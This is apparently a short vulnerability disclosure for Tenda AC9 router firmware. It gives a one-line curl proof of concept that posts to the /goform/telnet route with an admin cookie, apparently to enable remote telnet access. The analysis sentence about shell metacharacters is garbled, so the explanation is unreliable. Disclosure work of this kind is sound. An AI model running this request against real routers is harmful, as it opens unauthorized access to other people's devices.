



| Firmware Name | Firmware Version          | Download Link |
| ------------- | ------------------------- | ------------- |
| ac9           | V1.0BR_V15.03.05.14_multi | none          |

## Analysis



An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

## POC

```
curl -i -X POST http://192.168.0.1/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```





